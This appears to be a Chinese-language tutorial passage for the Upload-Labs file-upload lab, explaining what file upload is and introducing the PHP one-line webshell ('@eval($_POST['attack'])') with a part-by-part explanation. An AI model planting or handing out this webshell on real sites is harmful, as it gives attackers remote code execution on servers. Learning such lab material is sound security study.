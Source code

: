 # Upload-Labs通关

**目录**

[TOC]





## 问题

 [记录BUG—在uploadlabs第三关中—关于phpstudy中修改httpd.conf依旧无法解析.php3d等问题_upload第三关常见错误_dfzy$_$的博客-CSDN博客](https://blog.csdn.net/qq_43696276/article/details/126445465) 

## 我们首先先来了解一下什么是文件上传

```undefined
首先 很简单
文件上传就是 需要用户进行上传文件 图片或视频等信息
```

但是如果用户恶意上传木马怎么办？

这里由提到了木马

## 一句话木马

我们在文件上传的时候 天天都是一句话木马

但是这个木马到底是什么呢

首先我们先要了解一下

### web是用什么语言开发的

目前存在

```cobol
ASP/PHP/JSP/ASPX
 
这些都是web开发的语言
```

### 最简单的一句话木马

```php
   <?php @eval($_POST['attack']);?>
```

#### 解释

```php
这里存在了几个方面
 
1.<?php ?>
2.@
3eval()
4$_POST['attack']
 
 
我们一个一个解释
 
 
1.就是php语言
 
2.@出现就是说 发生错误 也不进行报错
 
3.eval()  把（）里面的当做命令来执行
```